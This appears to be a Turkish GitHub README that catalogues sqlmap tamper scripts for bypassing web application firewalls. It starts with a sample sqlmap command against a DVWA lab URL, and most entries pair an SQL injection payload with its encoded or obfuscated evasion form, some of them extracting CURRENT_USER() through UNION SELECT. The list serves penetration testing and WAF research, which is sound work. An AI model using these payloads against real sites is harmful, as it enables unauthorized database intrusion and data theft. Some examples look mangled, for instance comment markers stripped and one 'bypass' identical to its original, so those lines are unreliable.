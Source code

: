 # SQLMapWafBypass
SQLmap Waf Bypass İçin Tamper Listesi


Örnek Kullanımı; sqlmap -u "http://1.2.3.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --tamper "randomcase" --dbs

apostrophemask.py (UTF-8) Örnek:

Orijinal Komut: AND '1'='1'
Bypass Komutu: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87


apostrophenullencode.py (unicode) Örnek:

Orijinal Komut: AND '1'='1'
Bypass Komutu: AND %271%27=%271%27


appendnullbyte.py () Örnek:

Orijinal Komut: AND 1=1
Bypass Komutu: AND 1=1 Platform:
Microsoft Access


base64encode.py (base64) Örnek:

Orijinal Komut: 1' AND SLEEP(5)#
Bypass Komutu: MScgQU5EIFNMRUVQKDUpIw==


between.py (“not between” “>”) Örnek:

Orijinal Komut: 'A > B'
Bypass Komutu: 'A NOT BETWEEN 0 AND B'
bluecoat.py (“like” “=”) Örnek:

Orijinal Komut: SELECT id FROM users where id = 1
Bypass Komutu: SELECT%09id FROM users where id LIKE 1 Platform:
MySQL 5.1, SGOS


chardoubleencode.py Örnek:

Orijinal Komut: SELECT FIELD FROM%20TABLE
Bypass Komutu: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545


charencode.py Örnek:

Orijinal Komut: SELECT FIELD FROM%20TABLE
Bypass Komutu: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45


charunicodeencode.py Örnek:

Orijinal Komut: SELECT FIELD%20FROM TABLE
Bypass Komutu: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045' Platform:
ASP
ASP.NET


equaltolike.py (“like” “=”) Örnek:

Orijinal Komut: SELECT * FROM users WHERE id=1
Bypass Komutu: SELECT * FROM users WHERE id LIKE 1


halfversionedmorekeywords.py Örnek:

Orijinal Komut: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa
Bypass Komutu: value'/!0UNION/!0ALL/!0SELECT/!0CONCAT(/!0CHAR(58,107,112,113,58),/!0IFNULL(CAST(/!0CURRENT_USER()/!0AS/!0CHAR),/!0CHAR(32)),/!0CHAR(58,97,110,121,58)), NULL, NULL#/!0AND 'QDWa'='QDWa Platform:
MySQL < 5.1


ifnull2ifisnull.py (“IF(ISNULL(A), B, A)” “IFNULL(A, B)”) Örnek:

Orijinal Komut: IFNULL(1, 2)
Bypass Komutu: IF(ISNULL(1), 2, 1) Platform:
MySQL
SQLite (possibly)
SAP MaxDB (possibly)


modsecurityversioned.py Örnek:

Orijinal Komut: 1 AND 2>1--
Bypass Komutu: 1 /!30000AND 2>1/-- Platform:
MySQL


modsecurityzeroversioned.py (“0000”) Örnek:

Orijinal Komut: 1 AND 2>1--
Bypass Komutu: 1 /!00000AND 2>1/-- Platform:
MySQL


multiplespaces.py Örnek:

Orijinal Komut: UNION SELECT
Bypass Komutu: UNION SELECT


nonrecursivereplacement.py Örnek:

Orijinal Komut: 1 UNION SELECT 2--
Bypass Komutu: 1 UNUNIONION SELSELECTECT 2--


percentage.py (“%”) Örnek:

Orijinal Komut: SELECT FIELD FROM TABLE
Bypass Komutu: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E Platform:
ASP


randomcase.py Örnek:

Orijinal Komut: INSERT
Bypass Komutu: InsERt


randomcomments.py Örnek: 

'INSERT' becomes 'IN//S//ERT'


securesphere.py Örnek:

Orijinal Komut: AND 1=1
Bypass Komutu: AND 1=1 and '0having'='0having'


sp_password.py (“sp_password”) Örnek:

Orijinal Komut: 1 AND 9227=9227--
Bypass Komutu: 1 AND 9227=9227--sp_password Platform:
MSSQL


space2comment.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT//id//FROM/**/users


space2dash.py (“--”) Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1--PTTmJopxdWJ%0AAND--cWfcVRPV%0A9227=9227 Platform:
MSSQL
SQLite


space2hash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 Platform:
MySQL


space2morehash.py Platform:

MySQL >= 5.1.13


space2mssqlblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT%08id%02FROM%0Fusers Platform:
Microsoft SQL Server


space2mssqlhash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1%23%0A9227=9227 Platform:
MSSQL
MySQL


space2mysqlblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT%0Bid%0BFROM%A0users Platform:
MySQL


space2mysqldash.py Örnek:

Orijinal Komut: 1 AND 9227=9227
Bypass Komutu: 1--%0AAND--%0A9227=9227 Platform:
MySQL
MSSQL
space2plus.py (“+”) Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECT+id+FROM+users


space2randomblank.py Örnek:

Orijinal Komut: SELECT id FROM users
Bypass Komutu: SELECTridtFROMnusers


unionalltounion.py (“union all” “union”) Örnek:

Orijinal Komut: -1 UNION ALL SELECT
Bypass Komutu: -1 UNION SELECT
unmagicquotes.py (“%bf%27” “--”) Örnek:

Orijinal Komut: 1' AND 1=1
Bypass Komutu: 1%bf%27 AND 1=1--%20
versionedkeywords.py Örnek:

Orijinal Komut: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#
Bypass Komutu: 1/!UNION//!ALL//!SELECT//!NULL/,/!NULL/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/!AS//!CHAR/),CHAR(32)),CHAR(58,100,114,117,58))# Platform:
MySQL
versionedmorekeywords.py Örnek:

Orijinal Komut: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#
Bypass Komutu: 1/!UNION//!ALL//!SELECT//!NULL/,/!NULL/,/!CONCAT/(/!CHAR/(58,122,114,115,58),/!IFNULL/(CAST(/!CURRENT_USER/()/!AS//!CHAR/),/!CHAR/(32)),/!CHAR/(58,115,114,121,58))# Platform:
MySQL >= 5.1.13
